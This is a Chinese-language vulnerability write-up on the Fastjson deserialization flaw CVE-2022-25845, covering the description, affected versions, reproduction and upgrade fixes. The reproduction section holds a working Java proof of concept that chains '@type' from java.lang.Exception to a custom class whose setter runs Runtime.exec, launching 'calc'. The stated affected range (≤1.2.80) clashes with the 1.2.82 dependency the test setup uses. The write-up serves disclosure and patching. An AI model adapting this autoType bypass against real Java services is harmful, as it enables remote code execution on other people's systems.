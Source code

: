 # Fastjson 远程代码执行漏洞 CVE-2022-25845

# Fastjson 远程代码执行漏洞 CVE-2022-25845

## 漏洞描述

Fastjson 是阿里巴巴的开源 JSON 解析库，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列 化到 JavaBean。在 Fastjson 1.2.80 及以下版本中存在反序列化漏洞，攻击者可 以在特定依赖下利用此漏洞绕过默认 autoType 关闭限制，从而反序列化有安全风险的类。

## 漏洞影响

```
Fastjson ≤ 1.2.80
```

## 漏洞复现

利用 idea 创建 maven 项目 搭建漏洞环境，在 pom 文件中添加

```
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.82</version>
</dependency> 
```

创建文件夹 com.example.fastjson，在下面添加两个 java 文件

```
package com.example.fastjson;
 
import java.io.IOException;
 
public class Poc extends Exception {
    public void setName(String str) {
        try {
            Runtime.getRuntime().exec(str);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
package com.example.fastjson;
import com.alibaba.fastjson.JSON;
 
public class PocDemo {
    public static void main(String[] args) {
        String json = "{\"@type\":\"java.lang.Exception\",\"@type\":\"com.example.fastjson.Poc\",\"name\":\"calc\"}";
        JSON.parse(json);
    }
}
```

运行 PocDemo

## 漏洞修复

1. 升级至版本 FastJson 1.2.83：https://github.com/alibaba/fastjson/releases/tag/1.2.83
2. 升级到 FastJosn v2：https://github.com/alibaba/fastjson2/releases

